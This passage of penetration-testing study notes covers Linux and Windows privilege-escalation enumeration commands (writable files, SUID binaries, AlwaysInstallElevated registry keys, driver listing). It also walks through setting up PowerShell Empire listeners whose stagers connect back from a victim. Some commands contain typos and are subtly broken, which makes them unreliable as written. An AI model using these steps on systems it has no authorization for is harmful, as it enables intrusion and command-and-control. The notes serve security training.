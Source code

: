 			Linux: dpkg -l
			Windows: wmic product get name, version, vendor, wmic qfe get Caption, Description, HotFixID, InstalledOn
		Enumerating readable/writable directories and files:
			Linux: to list all the directories writable by yhe current user: find / -writable -type 2>/dev/null
			Windows: 
				We can use and external tool uploaded to the victim machine: c:\Tools\privilege_escalation\SysinternalsSuite\accesschk.exe -uws "Everyone" "C:\Program Files"
				Or we can use PowerShell if transferring tool from the attacker is not possible: Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?($_.AccessToString -match "Everyone\sAllow\s\Smodify")
		Enumerating unmounted disks:
			Linux: mount, cat /etc/fstab, /bin/lsblk
			Windows: mountvol
		Enumerating device drivers and lernel modules:
			Linux: lsmod, /sbin/modinfo blabla
			Windows:
				From within PowerShell: driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
				To get the version of the drivers/kernel modules: Get-WmiObject Win32_PnPSignefDriver | Select-Object DeviceName, DriverVersion, manufactrer | Where-Objet {$_.DeviceName -like "*VMware*"}
		Enumerating binaries that autoelevate:
			Linux: we can search for suid files. If a binary is owned by root and the suid bit is set, anybody can execute that binary as root:
				find / -perm -u=s -type f 2>/dev/null
			Windows: if these values are "1", then any user can run Windows installer packages with elevated privileges and we can craft a msi file to elevate our privileges:
				reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
				reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
	Automated enumeration:
		Linux: ./unix-privesccheck standard > output.check
		Windows: c:\Tools\privilege_escalation\windows-privesc-checkmaster\windows-privesc-check2.exe -h

##### PowerShell Empire
PowerShell Empire is a PowerShell and Python exploitation and post-exploitation agent with focus on client-side exploitation and post-exploitation for Active Directory deployments
Exploitation and post-exploitation are performed using PowerShell on Windows and Python on Linux and MacOS
Empire relies on pre-installed libraries and features and requires PowerShell v2 on Windows and Python v2.6 or 2.7 on Linux and MacOS
Empire is not installed by default and needs to be installed manually:
	sudo apt install powershell-empire  
	powershell-empire
PowerShell Empire syntax:
	(Empire) > help
Listeners and Stagers:
	Listeners accept inbound connections from various Empire agents
	Stagers are small pieces of code generated by Empire that are executed on the victim and connect back to a listener, facilitating the transfer to the victim of a staged payload
	To begin an Empire session, we will first enter the listener context: (Empire) > listeners
	Then we print the available listeners: (Empire: listeners) > uselistener [TAB] [TAB] 
	Once we have decided on which listener to use (for example the http listener), we select it: (Empire: listeners) > uselistener http
	We then run the info command to shop the listener information and syntax: (Empire: listeners/http) > info 
	Important listener options to set:
		Host
		Port
		DefaultDelay
		DefaultJitter
		KillDate
	Example of setting an option: 
		(Empire: listeners/http) > set Host 10.11.0.4
	Once the options are set, we can start the listener with the execute command: 
		(Empire: listeners/http) > execute